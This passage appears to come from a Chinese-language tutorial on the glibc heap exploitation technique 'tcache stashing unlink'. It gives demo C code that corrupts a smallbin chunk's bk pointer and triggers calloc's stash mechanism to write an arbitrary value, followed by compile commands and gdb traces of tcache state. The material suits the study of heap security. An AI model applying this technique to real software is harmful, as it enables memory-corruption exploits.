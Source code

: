 ```
    s2 = malloc(0x420);
    pad = malloc(0x80);
    free(s2);
    malloc(0x3c0);
    malloc(0x100);
    printf("chunk %p is in smallbin[4], whose size is 0x60\n", s2+0x3c0);
    printf("smallbin[4] list is %p &lt;--&gt; %p\n", s2+0x3c0, s1+0x3c0);

    printf("\n4. overwrite the first chunk in smallbin[4]'s bk pointer to &amp;victim-0x10 address, the first chunk is smallbin[4]-&gt;fd\n");

    printf("Change %p's bk pointer to &amp;victim-0x10 address: 0x%lx\n", s2+0x3c0, (uint64_t)(&amp;victim)-0x10);
    *(uint64_t*)((s2+0x3c0)+0x18) = (uint64_t)(&amp;victim)-0x10;

    printf("\n5. use calloc to apply to smallbin[4], it will trigger stash mechanism in smallbin.\n");

    calloc(1, 0x50);

    printf("Finally, the victim's value is changed to a big number\n");
    printf("Now, victim's value: 0x%lx\n", victim);
    return 0;
`}`
```

#### <a class="reference-link" name="%E7%BC%96%E8%AF%91%E5%91%BD%E4%BB%A4"></a>编译命令

```
gcc  -g ./tcache_stashing_unlink.c -o tcache_stashing_unlink
```

-g 编译是可以让gdb显示源码

#### <a class="reference-link" name="%E8%B0%83%E8%AF%95%E8%BF%87%E7%A8%8B"></a>调试过程

```
for(int i=0; i&lt;6; i++)`{`
        t1 = calloc(1, 0x50);
        free(t1);
    `}`
```

```
(0x60)   tcache_entry[4](6): 0x5555555594a0 --&gt; 0x555555559440 --&gt; 0x5555555593e0 --&gt; 0x555555559380 --&gt; 0x555555559320 --&gt; 0x5555555592c0
```

先往tcache 中0x60的bin chain 上放入6个bin.。

接着将两个大小相同的块（如`tcache_entry`）释放到相应的smallbin中。

```
s1 = malloc(0x420);
    printf("Alloc a chunk %p, whose size is beyond tcache size threshold\n", s1);
    pad = malloc(0x20);
    printf("Alloc a padding chunk, avoid %p to merge to top chunk\n", s1);
    free(s1);
    printf("Free chunk %p to unsortedbin\n", s1);
```

